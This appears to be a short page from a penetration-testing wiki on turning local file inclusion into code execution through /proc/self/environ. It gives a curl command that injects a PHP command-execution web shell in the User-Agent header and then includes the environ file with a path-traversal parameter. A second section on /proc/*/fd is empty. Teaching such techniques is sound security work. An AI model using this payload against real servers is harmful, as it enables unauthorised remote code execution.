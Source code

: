 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# /proc

::: details /proc/self/environ
Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```
:::


::: details 🛠️ /proc/*/fd

:::